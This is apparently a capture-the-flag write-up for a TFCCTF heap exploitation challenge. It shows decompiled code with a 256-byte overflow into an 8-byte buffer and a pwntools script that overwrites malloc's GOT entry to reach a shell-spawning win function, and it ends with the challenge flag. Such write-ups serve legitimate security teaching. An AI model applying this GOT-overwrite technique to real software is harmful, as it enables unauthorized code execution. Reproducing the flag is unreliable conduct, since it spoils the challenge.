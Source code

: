 > A simple notes service for your darkest secrets
---

Load the binary into IDA and see the functions that are available.

Functions:
```c++
note_t *__cdecl add()
{
  note_t *note; // [rsp+8h] [rbp-8h]

  note = (note_t *)malloc(8uLL);
  note->content = (char *)malloc(8uLL);
  puts("content> ");
  fgets(note->content, 8, stdin);
  return note;
}
```

```C++
void __cdecl edit(note_t *note)
{
  puts("content> ");
  fgets(note->content, 256, stdin);
}
```

```c++
void __cdecl win()
{
  system("/bin/sh");
}
```

We see that when adding a record in the heap, 8 bytes are allocated for each record and another 8 bytes for the pointer (but in fact one record stores 32 bytes, I haven't figured out why), and only 8 bytes can be written. But when modifying an existing record it is possible to write 256 bytes. That is, we can overwrite the pointer of the next record. And there is also the win function that is never called.

To do this, we must first create two records with arbitrary contents:

```python
io.recvuntil(b"0. Exit")
io.sendline(b'1')
io.recvuntil(b'index> ')
io.sendline(b'0')
io.recvuntil(b'content>')
io.sendline(b'chunk1')  

io.recvuntil(b"0. Exit")
io.sendline(b'1')
io.recvuntil(b'index> ')
io.sendline(b'1')
io.recvuntil(b'content>')
io.sendline(b'chunk2')
```

Next we need to change the first record and rewrite the pointer of the second record to another one. We need to overwrite the data in the got.plt table, namely the address of the malloc function, which is located at the address **0x404028**.

```python
io.recvuntil(b"0. Exit")
io.sendline(b'2')
io.recvuntil(b'index> ')
io.sendline(b'0')
io.recvuntil(b'content>')
payload = flat(
    b'A' * 32,
    p64(0x404028)
)
io.sendline(payload)
```

And then we simply change the allegedly second note and simply rewrite the address of the malloc function to the address of the win function - **0x4011A6**. And when calling the malloc function, the win function will be called.

```python
io.recvuntil(b"0. Exit")
io.sendline(b'2')
io.recvuntil(b'index> ')
io.sendline(b'1')
io.recvuntil(b'content>')
io.sendline(p64(0x4011A6))
```

---
> [Full exploit](notes.py)
>
> Flag: **TFCCTF{103a360f285151bfda3fb4009852c15084fd9bf997470c43c20eef413ed98898}**